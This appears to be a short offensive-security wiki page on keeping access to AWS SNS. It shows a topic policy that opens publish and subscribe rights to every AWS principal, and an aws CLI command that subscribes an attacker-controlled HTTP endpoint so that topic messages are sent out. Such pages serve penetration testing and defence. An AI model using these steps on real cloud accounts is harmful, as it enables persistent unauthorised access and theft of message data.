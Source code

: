 # AWS - SNS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## SNS

For more information check:

{{#ref}}
../aws-services/aws-sns-enum.md
{{#endref}}

### Persistence

When creating a **SNS topic** you need to indicate with an IAM policy **who has access to read and write**. It's possible to indicate external accounts, ARN of roles, or **even "\*"**.\
The following policy gives everyone in AWS access to read and write in the SNS topic called **`MySNS.fifo`**:

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "__default_statement_ID",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "SNS:Publish",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:DeleteTopic",
        "SNS:ListSubscriptionsByTopic",
        "SNS:GetTopicAttributes",
        "SNS:AddPermission",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
      "Condition": {
        "StringEquals": {
          "AWS:SourceOwner": "318142138553"
        }
      }
    },
    {
      "Sid": "__console_pub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Publish",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    },
    {
      "Sid": "__console_sub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    }
  ]
}
```

### Create Subscribers

To continue exfiltrating all the messages from all the topics and attacker could **create subscribers for all the topics**.

Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used.

```bash
aws sns subscribe --region <region> \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

{{#include ../../../banners/hacktricks-training.md}}




